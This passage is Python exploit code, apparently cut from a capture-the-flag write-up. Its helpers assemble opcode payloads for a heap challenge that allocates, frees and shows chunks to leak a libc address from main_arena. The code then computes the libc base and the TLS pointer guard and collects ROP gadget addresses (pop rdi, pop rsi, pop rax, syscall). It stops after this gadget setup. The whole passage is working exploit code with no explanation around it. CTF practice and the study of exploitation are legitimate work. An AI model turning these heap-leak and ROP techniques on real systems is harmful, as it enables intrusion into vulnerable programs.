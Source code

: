 ```python
    return int(tmp[key:] + tmp[:key], 2)

all_payload = ""

def add(idx, size):
    global all_payload
    payload = p8(0x1)
    payload += p8(idx)
    payload += p16(size)
    all_payload += payload


def show(idx):
    global all_payload
    payload = p8(0x3)
    payload += p8(idx)
    all_payload += payload


def delete(idx):
    global all_payload
    payload = p8(0x2)
    payload += p8(idx)
    all_payload += payload


def edit(idx, buf):
    global all_payload
    payload = p8(0x4)
    payload += p8(idx)
    payload += p16(len(buf))
    payload += str(buf)
    all_payload += payload


def run_opcode():
    global all_payload
    all_payload += p8(5)
    p.sendafter("Pls input the opcode", all_payload)
    all_payload = ""


# leak libc_base
add(0, 0x410)
add(1, 0x410)
add(2, 0x420)
add(3, 0x410)

delete(2)
add(4, 0x430)
show(2)
run_opcode()

libc_base = uu64()-0x2190b0 # main_arena + 1104
lg("libc_base")
guard = libc_base - 0x002890# tls
lg("guard")

pop_rdi_addr = libc_base + 0x000000000002e6c5
pop_rsi_addr = libc_base + 0x000000000012a8e1
pop_rax_addr = libc_base + 0x0000000000049f10
syscall_addr = libc_base + 0x0000000000095196
gadget_addr  = libc_base + 0x0000000000169e90  # search mov rdx
```